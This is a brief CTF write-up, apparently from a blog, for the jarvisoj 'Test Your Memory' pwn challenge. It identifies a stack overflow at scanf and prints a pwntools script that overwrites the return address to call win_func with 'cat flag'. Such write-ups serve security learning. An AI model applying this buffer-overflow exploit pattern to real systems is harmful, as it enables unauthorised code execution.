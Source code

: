 ```yaml
---
layout:     post
title:      jarvisoj Test Your Memory
author:     wooy0ung
tags: 		linux elf pwn
category:  	ctf
---
```



### 0x00 introduction

```
Problem Address:
https://www.jarvisoj.com

Problem Description:
听说guestbook1很快被人日穿了，出题人表示不服，于是对Guestbook进行了升级，自以为写的很科学~~大家一起鉴定一下。

题目来源：CFF2016

Download:
https://dn.jarvisoj.com/challengefiles/memory.838286edf4b832fd482d58ff1c217561

Address:
nc pwn2.jarvisoj.com 9876
```
<!-- more -->


### 0x01 IDA分析

简单的栈溢出

![](/assets/img/ctf/pwn/2017-07-23-jarvisoj-memory/0x00.png)

在scanf处溢出

![](/assets/img/ctf/pwn/2017-07-23-jarvisoj-memory/0x01.png)

将返回地址覆盖成win_func的地址

![](/assets/img/ctf/pwn/2017-07-23-jarvisoj-memory/0x02.png)

传入'cat flag'

![](/assets/img/ctf/pwn/2017-07-23-jarvisoj-memory/0x03.png)

### 0x01 exploit

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

junk = 'A' * (0x13 + 0x04)
win_func_addr = 0x080485BD
retn_addr = 0x0804871E
bss_cat_flag = 0x080487E0

Io = remote('pwn2.jarvisoj.com', 9876)
payload = junk + p32(win_func_addr) + p32(retn_addr) + p32(bss_cat_flag)
Io.sendline(payload)
Io.recv()
print Io.recv()
```

得到flag

![](/assets/img/ctf/pwn/2017-07-23-jarvisoj-memory/0x04.png)